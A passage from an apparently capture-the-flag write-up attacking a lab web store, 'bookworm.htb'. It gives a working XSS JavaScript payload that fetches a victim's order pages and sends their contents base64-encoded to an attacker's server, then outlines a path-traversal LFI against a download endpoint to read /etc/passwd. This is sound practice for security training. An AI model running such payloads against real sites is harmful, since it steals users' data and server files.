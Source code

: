```markup
    </tr>
  </tbody>
</table>
  </div>
  </body>
</html>
```

The first thing we notice is that there are indeed older orders present on the site. We can attempt to view one of the orders, and I chose to steal `/order/18`. However, it seems that the order number changes each time because the bot uses a different user each time.

Instead, we can add to our Javascript payload by scraping the possible endpoints from the page, visiting them and sending the page contents back to our webserver:

```javascript
function getOrder(html_page) {
    const parser = new DOMParser();
    const htmlString = html_page;
    const doc = parser.parseFromString(htmlString, 'text/html');
    const orderLink = doc.querySelector('tbody a');
    const orderUrl = orderLink ? orderLink.getAttribute('href') : null; 
    return orderUrl ? ["http://bookworm.htb" + orderUrl] : []; 
}
function stealpage(url) {
    var attacker = "http://10.10.14.13/?url=" + encodeURIComponent(url);
    fetch(url).then(async res => {
        fetch(attacker + "&data=" + btoa(await res.text()))
    });
}
fetch("http://bookworm.htb/profile").then(async (res) => {
    const html = await res.text();
    const orders = getOrder(html);
    for (const path of orders) {
        const url = "http://bookworm.htb" + path;
        stealpage(url);
    }
});
```

After receiving our callback, we can decode the page to find this interesting part:

```markup
<td>
<a href="/download/13?bookIds=17" download="Hans Holbein.pdf">Download e-book</a>
</td>
```

Within each `/order` endpoint, there's the option to download the book. We can test for vulnerabilities like RCE and LFI in this.

### XSS LFI --> User Creds

I tested for LFI first, and this can be done by editing our Javascript code to visit the `/order` page and then visit `/download/<NUMBER>?bookIds=../../../../../../etc/passwd`. We would also need to have a handler that would convert it to a PDF file somehow.
